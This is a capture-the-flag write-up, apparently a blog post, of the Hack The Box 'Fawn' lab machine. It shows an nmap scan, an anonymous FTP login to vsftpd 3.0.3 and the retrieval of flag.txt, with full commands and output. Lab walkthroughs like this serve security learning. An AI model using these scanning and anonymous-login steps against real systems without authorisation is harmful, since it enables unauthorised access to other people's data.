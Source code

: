 ```yaml
---
title: "Hack The Box - Fawn"
date: 2022-10-11T22:13:07+05:30
draft: false
description:  " Fawn from HackTheBox is an retired machine which is vulnerable to security Misconfiguration FTP , which can be easily exploited with help of Basic Recon " 
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- FTP
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/fawn/fawn1.png
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Fawn Machine.


## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 21 ware open. while trying to connect with default password of anonymous user FTP ware get logged.

## Recon

lets start with initial default scan (-sC) 

port 21 FTP has opened and the version of ftp server is   vsftpd 3.0.3. File Transfer Protocol (FTP) is a standard communication protocol used to transfer computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, generally in the form of a username and password. For secure transmission that protects the username and password and encrypts the content, FTP is often secured
with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).

 if the server is configured insecurely. allows anonymous login then we can able to login username and password as a anonymous. 



```bash
atom@atom-VirtualBox:~/htb/fawn$ nmap -sC -sV 10.129.1.14 -o initialscan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-11 19:57 IST
Nmap scan report for 10.129.1.14
Host is up (0.29s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 592.59 seconds
```

The nmap scan shows that the server allows anonymous login allowed. lets try to login with default credentials.

```bash
atom@atom-VirtualBox:~/htb/fawn$ ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:atom): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

we have successfully logged into FTP. let’s dig for any sensitive files, 

```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

we have found flag file o ftp home directory, GET command is used to download  target file 

```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (651.0416 kB/s)
ftp>
```
``` cat ``` command is used to viw the content.